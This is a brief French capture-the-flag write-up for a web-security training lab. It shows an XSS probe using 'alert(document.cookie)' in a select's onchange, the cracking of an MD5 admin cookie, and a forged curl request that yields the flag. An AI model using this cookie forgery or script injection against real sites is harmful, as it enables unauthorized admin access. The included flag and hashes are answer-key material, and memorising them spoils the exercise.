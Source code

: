 /index.php?page=survey
Insérer le script "alert(document.cookie);" dans le onchange d'un des <select>
Ca affiche "I_am_admin=68934a3e9455fa72420237eb05902327"
Si on unhash (MD5) "68934a3e9455fa72420237eb05902327" ça on obtient "false"
On hash (MD5) "true" qui donne "b326b5062b2f0e69046810717534cb09"
On utilise curl avec la commande : curl --cookie "I_am_admin=b326b5062b2f0e69046810717534cb09" <IP_DARKLY>
On obtient le flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
